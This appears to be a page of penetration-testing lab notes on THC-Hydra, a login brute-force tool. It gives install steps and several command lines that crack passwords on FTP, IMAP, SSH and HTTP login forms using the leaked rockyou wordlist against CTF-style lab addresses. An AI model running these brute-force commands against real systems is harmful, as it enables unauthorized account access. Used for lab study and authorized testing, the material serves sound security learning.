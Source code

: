 # Hydra

## About

[THC-Hydra](https://github.com/vanhauser-thc/thc-hydra) is parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add. This tool makes it possible for researchers and security consultants to show how easy it would be to gain unauthorized access to a system remotely. It supports: Cisco AAA, Cisco auth, Cisco enable, CVS, FTP, HTTP(S)-FORM-GET, HTTP(S)-FORM-POST, HTTP(S)-GET, HTTP(S)-HEAD, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MySQL, NNTP, Oracle Listener, Oracle SID, PC-Anywhere, PC-NFS, POP3, PostgreSQL, RDP, Rexec, Rlogin, Rsh, SIP, SMB(NT), SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP

## Installing

```
sudo git clone https://github.com/vanhauser-thc/thc-hydra.git && cd thc-hydra
sudo ./configure
sudo make
sudo make install
```

## Usage

### HTTP

```
Examples:
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```

```bash
hydra -l molly -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.166.146 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

![](<../../.gitbook/assets/image (90).png>)

```bash
hydra -l molly -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.166.146 -t 4 ssh
```

![](<../../.gitbook/assets/image (73).png>)

### SSH

```bash
hydra -l joshua -P /usr/share/wordlists/rockyou.txt -V ssh://10.129.82.199
```

<figure><img src="../../.gitbook/assets/image (656).png" alt=""><figcaption></figcaption></figure>
